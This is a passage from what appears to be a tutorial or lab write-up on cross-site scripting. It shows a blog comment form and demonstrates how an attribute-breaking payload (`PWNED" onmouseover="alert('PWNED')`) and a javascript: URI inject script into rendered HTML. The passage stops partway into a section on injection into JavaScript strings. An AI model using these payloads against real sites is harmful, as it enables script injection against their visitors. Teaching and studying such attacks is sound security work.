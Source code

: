 ```html
</hr>
<br>
<form action="[/post/comment](view-source:https://example.net/post/comment)" method="POST" enctype="application/x-www-form-urlencoded"> 
	<input required type="hidden" name="csrf" value="KejLnGzcJtUlkOWdCq9jHZqHeSGpRXKL">
	<input required type="hidden" name="postId" value="1">
	<label>Comment:</label> 
	<textarea required rows="12" cols="300" name="comment">
	</textarea>
	<label>Name:</label> 
	<input required type="text" name="name"> 
	<label>Email:</label> <input required type="email" name="email">
	<label>Website:</label> <input pattern="(http:|https:).+" type="text" name="website"> 
	<button class="button" type="submit">Post Comment</button> </form>
</form>
```

We as hackers could break that attribute to write more attributes or literally more tags, we would just add  `user"` as name in the form, and that would break the attribute, so we can add other atribute and *NOT* add the last quote to build the full tag again.

```Payload
PWNED" onmouseover="alert('PWNED')
```

And our section would look like this

```html
	<section class="comment" user-data="PWNED" onmouseover="alert('PWNED')"> 
		<p>
		<img src="[/resources/images/avatarDefault.svg](view-source:https://example.net/resources/images/avatarDefault.svg)" class="avatar">  PWNED" onmouseover="alert('PWNED') | 03 June 2025
		</p> 
		<p>PWNED</p> 
		<p></p>
	</section>
```

we can also do something that too few programmers know that is possible, and it is call Javascript inside of an attribute, it would be like this:

```html
<section class="comment" user-data="javascript:alert('PWNED')">
```


#### XSS into JavaScript

Other context that is pretty common is XSS into own Javascript scripts. A  programmer can make an script to write comments in the section to then show it in the frontEnd from our input, like this:

```js
let comment = 'My comment';
```

So it will be procces in a way so then it will be showed in the comment section like this
